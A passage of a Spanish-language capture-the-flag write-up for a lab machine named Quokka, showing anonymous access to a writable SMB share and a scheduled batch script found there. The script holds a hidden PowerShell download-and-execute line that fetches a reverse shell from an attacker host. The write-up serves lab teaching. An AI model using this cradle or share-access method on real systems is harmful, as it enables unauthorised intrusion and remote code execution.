 Vemos que esta vez si ha funcionado, podemos ver varias cosas interesantes sobre todo que el recurso compartido llamado `Compartido` se puede entrar y escribir, por lo que si intentamos entrar como `anonimo` veremos que nos deja.

## Escalate Privileges

### SMB

```shell
smbclient //<IP>/Compartido -N
```

Si listamos veremos lo siguiente:

```
.                                   D        0  Sun Oct 27 15:54:55 2024
  ..                                  D        0  Sun Oct 27 15:54:55 2024
  Documentación                      D        0  Sun Oct 27 15:33:53 2024
  Logs                                D        0  Sun Oct 27 15:33:54 2024
  Proyectos                           D        0  Sun Oct 27 15:33:54 2024

		7735807 blocks of size 4096. 4827906 blocks available
```

Si nos vamos a la siguiente estructura de carpetas:

```
dir Proyectos\Quokka\Código\
```

Veremos unos archivos interesantes:

```
.                                   D        0  Sun Oct 27 15:58:54 2024
  ..                                  D        0  Sun Oct 27 15:58:54 2024
  index.html                          A       52  Sun Oct 27 15:33:54 2024
  mantenimiento - copia.bat           A     1252  Sun Oct 27 15:41:43 2024
  mantenimiento.bat                   A      343  Sun Oct 27 15:58:54 2024
  README.md                           A       56  Sun Oct 27 15:33:54 2024

		7735807 blocks of size 4096. 4827906 blocks available
```

Si nos descargamos el archivo `mantenimiento.bat` y lo leemos por dentro veremos lo siguiente:

```bat
@echo off
:: Mantenimiento del sistema de copias de seguridad
:: Este script es ejecutado cada minuto

REM Pista: Tal vez haya algo m�s aqu�...

:: Reverse shell a Kali
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.36:8000/shell.ps1')"

:: Fin del script
exit
```
